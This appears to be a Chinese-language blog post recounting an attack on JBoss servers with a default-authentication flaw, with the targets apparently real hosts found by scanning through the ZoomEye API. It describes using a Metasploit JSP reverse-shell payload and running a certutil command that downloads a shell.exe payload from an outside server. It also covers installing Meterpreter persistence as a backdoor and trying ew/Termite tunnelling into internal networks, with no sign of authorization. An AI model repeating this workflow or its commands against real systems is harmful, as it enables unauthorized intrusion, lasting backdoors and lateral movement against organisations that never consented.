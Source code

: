 文章缘起于github上的一个jboss利用代码[https://github.com/yuxiaokui/JBoss-Hack](https://github.com/yuxiaokui/JBoss-Hack)
人家还给了一个简单的UIshell界面 不过，好难用的说这个后面再说
这个漏洞就是JBoss的默认身份验证漏洞，都不用登录的说，直接去网上扫就好了
那么问题来了，原作者写的一句话jsp的后门菜刀连不上，蚁剑不支持jsp，这就尴尬了，不过还好人家代码挺少，只能乖乖修改源码去了。
![](https://github.com/0linlin0/Records/blob/master/images/jb1.png?raw=true)
原作者调用了zoomeye的api，然后构造exp，发送get请求，并验证在这里我们可以修改exp，我们强大的msf可以生成payload，用的是 payload/java/jsp_shell_reverse_tcp ，生成的代码不太多，因为漏洞利用的时候需要将代码url编码后放到get请求里，所以这里就悲催了，尽量压缩代码把。msf心比它提供的UIshell界面好用多了。谁让我java很烂呢:(
生成payload并进行url编码，修改exp，然后运行修改后的脚本
![](https://github.com/0linlin0/Records/blob/master/images/jb2.png)
得到存在漏洞的主机列表
![](https://github.com/0linlin0/Records/blob/master/images/jb3.png)

Msf端设置监听端口，等待回连，访问链接，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb4.png)
Yes！拿到了webshell，我就想拿meterpreter，首先得上传payload，所以我又去搜，windows命令行下怎么样下载远程文件，得到了好多结果
[http://www.4hou.com/system/8661.html](http://www.4hou.com/system/8661.html)
[http://www.freebuf.com/articles/system/155147.html](http://www.freebuf.com/articles/system/155147.html) 
[结果3](http://wps2015.org/drops/drops/%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%8415%E7%A7%8D%E6%96%B9%E6%B3%95.html)

嗯。。我想说搜到了这么多，我只用了一个certutil
在webshell上运行这个命令
certutil.exe -urlcache -split -f https：//a.com/shell.exe
[certutil.exe利用](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
嘻嘻嘻，原谅我的懒惰，剩下的好多看不懂。。。所以以后慢慢唉，总会又用到的时候
所以我再vps上搭建了一个web服务，这样就可以啦，我的meterperter上传上去啦！所以我得到更高级的shell啦，而且还可以是长期的!说到这里，又遇到两个问题：
首先是上出啊的payload免杀的问题，还有是持久后门的问题，这一搜，打开了新世界的大门。这里留个坑，以后好好研究这里的内容。因为我比较幸运，目标上没有任何防护，不涉及到免杀，而且meterpreter自带的持久后门run persistence暂时就蛮好用的，虽然官方不推荐了，不过我们先凑活着用，毕竟只是练练手，嘻嘻。
然后就进入到进入内网的问题了，ew人家更新了（http://rootkiter.com/Termite/）看了人家的视频，真的是好好用，我太菜了，一直不成功，是不是Termite只支持正向socks..应该不会吧，所以只能先用着ew了。。。伤心当中。
关于Termite的使用不成功

![](https://github.com/0linlin0/Records/blob/master/images/jb5.png)

上传成功后msf监听端口，等待回连，回连成功
![](https://github.com/0linlin0/Records/blob/master/images/jb6.png)

